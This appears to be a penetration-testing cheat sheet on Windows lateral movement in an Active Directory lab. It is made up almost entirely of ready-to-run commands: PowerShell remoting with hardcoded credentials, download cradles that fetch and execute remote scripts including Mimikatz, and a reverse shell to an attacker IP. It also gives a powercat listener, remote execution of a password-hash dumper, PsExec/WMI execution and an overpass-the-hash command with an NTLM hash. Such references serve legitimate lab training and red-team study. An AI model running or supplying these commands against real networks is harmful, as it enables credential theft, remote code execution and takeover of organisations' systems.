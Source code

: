 # Lateral Movement
> Movement Technique and Remote code execution

# table of content
1. [Powershell Remoting](#Powershell-Remoting)
2. [Invoke Command](#Invoke-Command)


## Powershell Remoting
Change user

```powershell
$passwd = ConvertTo-SecureString "SuperS3Cr31PAssw0rd!@l33t" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("user", $passwd)
Enter-PSSession -Credential $creds -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
 ```
If you want to save the session
```powershell
$passwd = ConvertTo-SecureString "SuperS3Cr31PAssw0rd!@l33t" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("user", $passwd)
$sess = New-PSSession -Credential $creds
Enter-PSSession -Credential $creds -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
If you dont need a password
```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Credential dcorp\administrator
```
Dont need password with saved session
```powershell
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Enter-PSSession -Session $sess
```

Execution Cradle
```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
iex (iwr http://172.16.100.134/Invoke-Mimikatz.
ps1 -UseBasicParsing)
```

### Invoke Command

Use below to execute commands or scriptblocks:
```powershell
Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
 ```
Use below to execute scripts from files (some script thet wont work can work in this mode)
```powershell
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
Use below to execute locally loaded function on the remote machines:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
```
In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```
In below, a function call within the script is used:
```powershell
Invoke-Command -Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
Use below to execute "Stateful" commands using Invoke-Command:
```powershell
$Sess = New-PSSession –Computername Server1
Invoke-Command –Session $Sess –ScriptBlock {$Proc = GetProcess}
Invoke-Command –Session $Sess –ScriptBlock {$Proc.Name}
```
## Technique (user hunting)
```powershell
Find-LocalAdminAccess -Verbose
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## RCE
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1')); Power -Reverse -IPAddress 172.16.100.X -Port 443


powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Power -Reverse -IPAddress 172.16.100.X -Port 443
```
powercat
```powershell
. .\powercat.ps1
powercat -l -v -p 443 -t 100
```
python open file
```bash
python -m SimpleHTTPServer 8080
python3 -m http.server
```

## WMI command
check access
```powershell
gwmi -Class win32_computersystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
command execute
```cmd
.\PsExec.exe \\dcorp-dc.dollarcorp.moneycorp.local ipconfig
```


## Over Pass The Hash
PTH with mimikatz --> perform activities as the hash but Windows still think I am the same person
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```